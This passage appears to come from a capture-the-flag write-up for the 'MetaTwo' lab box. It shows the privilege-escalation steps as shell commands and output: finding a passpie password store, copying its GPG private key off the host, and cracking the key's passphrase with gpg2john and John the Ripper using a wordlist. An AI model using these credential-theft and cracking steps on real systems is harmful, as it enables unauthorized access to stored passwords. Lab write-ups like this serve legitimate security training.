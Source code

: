 The password is the same for logging into the metapress.htb box, where we can get the first flag: `e1e9315a4fa942c5f28e8ae085c70a95`.

## System

Now that we are ssh'd in as `jnelson`, we can start on the system key. First, there's an interesting directory in `jnelson`'s home:

```
$ ls -al ~
...
dr-xr-x--- 3 jnelson jnelson 4096 Oct 25 12:52 .passpie
...
```

[passpie](https://github.com/marcwebbie/passpie) appears to be a password manager. It looks like the root password may be stored in this password manager:

```
jnelson@meta2:~$ ls ~/.passpie/ssh/
jnelson.pass  root.pass
```

We can validate that with passpie:

```
jnelson@meta2:~$ passpie list
╒════════╤═════════╤════════════╤═══════════╕
│ Name   │ Login   │ Password   │ Comment   │
╞════════╪═════════╪════════════╪═══════════╡
│ ssh    │ jnelson │ ********   │           │
├────────┼─────────┼────────────┼───────────┤
│ ssh    │ root    │ ********   │           │
╘════════╧═════════╧════════════╧═══════════╛
````

There's no luck retrieving the root password using his same user password. That would be too easy.

Fortunately, in the `~/.passpie/.keys` file is the GPG private key, which we can bruteforce with JTR. Let's download that, convert it to something JTR can parse and have a crack at it.

```
$ scp jnelson@metapress.htb:~/.passpie/.keys passpie.keys
# Separate the private key into a file
$ cat priv.key
-----BEGIN PGP PRIVATE KEY BLOCK-----

lQUBBGK4V9YRDADENdPyGOxVM7hcLSHfXg+21dENGedjYV1gf9cZabjq6v440NA1
...
=7Uo6
-----END PGP PRIVATE KEY BLOCK-----
$ gpg2john priv.key > hash.txt
$ john -w=/usr/share/wordlists/rockyou.txt hash.txt 
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
blink182         (Passpie)     
1g 0:00:00:05 DONE (2023-03-05 22:26) 0.1757g/s 28.82p/s 28.82c/s 28.82C/s peanut..blink182
```
